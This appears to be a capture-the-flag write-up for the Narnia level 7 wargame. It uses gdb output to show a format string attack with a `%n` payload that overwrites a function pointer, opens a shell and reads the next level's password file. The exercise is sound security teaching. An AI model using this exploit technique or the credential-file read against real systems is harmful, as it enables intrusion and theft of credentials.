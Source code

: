 It's a longer code than the previous ones, but we have a hint here. The vulnerable function is called `vuln`, so it's pretty obvious we have to investigate it. Essentially we have another format string vulnerability (see Narnia5) but this time we have to redirect the execution by overwriting a function pointer. We want to put the address of `hackedfunction` in the `ptrf` variable. When the function will be called we get a shell. So how can we do this?
```
(gdb) disas vuln
	[...]
   0x080486ac <+145>:   push   %eax
   0x080486ad <+146>:   call   0x8048500 <snprintf@plt>
   0x080486b2 <+151>:   add    $0xc,%esp
   0x080486b5 <+154>:   mov    -0x84(%ebp),%eax
   0x080486bb <+160>:   call   *%eax
   0x080486bd <+162>:   leave
   0x080486be <+163>:   ret
End of assembler dump.
(gdb) b *0x080486ad
Breakpoint 1 at 0x80486ad
(gdb) b *0x080486b2
Breakpoint 2 at 0x80486b2
(gdb) run AAAABBBB
Starting program: /narnia/narnia7 AAAABBBB
goodfunction() = 0x80486ff
hackedfunction() = 0x8048724

before : ptrf() = 0x80486ff (0xffffd628)
I guess you want to come to the hackedfunction...

Breakpoint 1, 0x080486ad in vuln ()
(gdb) x/10xw $esp
0xffffd61c:     0xffffd62c      0x00000080      0xffffd893      0x080486ff
0xffffd62c:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd63c:     0x00000000      0x00000000

(gdb) c
Continuing.

Breakpoint 2, 0x080486b2 in vuln ()
(gdb) x/10xw $esp
0xffffd61c:     0xffffd62c      0x00000080      0xffffd893      0x080486ff
0xffffd62c:     0x41414141      0x42424242      0x00000000      0x00000000
0xffffd63c:     0x00000000      0x00000000
(gdb) x/s 0xffffd893
0xffffd893:     "AAAABBBB"

```
Breakpoints are set right before and after the execution of `snprinf`. So the stack is structured this way now :
>[first arg to snprintf][second arg to snprintf][third arg to snprintf][4 bytes unknown stuff][input controlled buffer]

On execution we get `hackedfunction`' and `ptrf`'s address but how can we ovverride `ptrf` now?
```
narnia7@narnia:/narnia$ ./narnia7 $(python -c "print('\x48\xd6\xff\xff')")%134514464x%n
goodfunction() = 0x80486ff
hackedfunction() = 0x8048724

before : ptrf() = 0x80486ff (0xffffd648)
I guess you want to come to the hackedfunction...
Way to go!!!!$ whoami
narnia8
$ cat /etc/narnia_pass/narnia8
**********
```